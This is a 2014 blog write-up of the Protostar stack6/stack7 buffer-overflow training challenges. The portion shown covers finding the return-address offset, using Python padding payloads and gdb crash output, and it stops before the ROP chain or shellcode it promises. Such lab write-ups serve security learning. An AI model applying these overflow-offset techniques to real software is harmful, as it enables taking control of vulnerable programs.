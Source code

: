 Title: Sort of ROP
Date: 2014-11-11 13:37
Category: Old Posts
Tags: old
Slug: Sort-of-ROP
Authors: wumb0

I've been running through some exploit challenges recently to try and develop my skills a bit more. I was working on the exploit-exercises.com <a href="https://exploit-exercises.com/protostar/" target="_blank">Protostar VM</a> on some stack challenges for a bit today and ended up doing some Return Oriented Programming (ROP) to solve <a href="https://exploit-exercises.com/protostar/stack6/" target="_blank">stack6</a> and <a href="https://exploit-exercises.com/protostar/stack7/" target="_blank">stack7</a>. It was interesting to work on so I thought that I would share here. I know it isn't 100% ROP (I use shellcode in the end) but that's alright, it got around the protections that these two challenges had in place.

Basically the gist of these two is that you can overflow a buffer of size 64 to get code execution. In these examples, however, there are some restrictions. In stack6 if you try and overwrite the return address with anything that begins with 0xbf (anything on the stack or in environmental vars), then it will exit and not run the shellcode you want it to. Unfortunate, but a nice challenge. Stack7 is similar but you cannot make the return address anything that starts with 0xb at all so it is a bit more restrictive. I was actually able to solve both at the same time with ROP. 
[[more]]

First, I needed to make sure I could overwrite the return address. This is fairly simple in this case because I have the source code and know the size of the buffer (64). I generated some input with python to test and debugged with gdb to make sure my code was segfauting because of a specific sequence of characters. I usually fill the buffer up to just before the return address with A's and then tack on BCDEFGHI so I can get a feeling of how many A's I need to add/take away to have control over the return address. I usually start with the size of the buffer plus 20 and judge based on that if i need to add/subtract A's. If eip is filled with A's then I have gone too far. If eip is filled with not A's or any of BCDEFGHI then I need to go further. If eip is filled with A's and any of BCD or any of GHI and random stuff then I am close. If eip has any combination of BCDEFGHI then I have found the padding necessary to overwrite the return address.

```
~/ $ python -c 'print "A"*84 + "\x41\x42\x43\x44\x45\x46\x47\x48\x49"' > six
... in another term
/opt/protostar/bin $ gdb -q ./stack6
(gdb) r < ~/six
Starting program: /opt/protostar/bin/stack6 < ~/six
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEFGHI

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

Too far...

```
~/ $ python -c 'print "A"*80 + "\x41\x42\x43\x44\x45\x46\x47\x48\x49"' > six
... in another term
/opt/protostar/bin $ gdb -q ./stack6
(gdb) r < ~/six
Starting program: /opt/protostar/bin/stack6 < ~/six
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEFGHI

Program received signal SIGSEGV, Segmentation fault.
0x44434241 in ?? ()
```
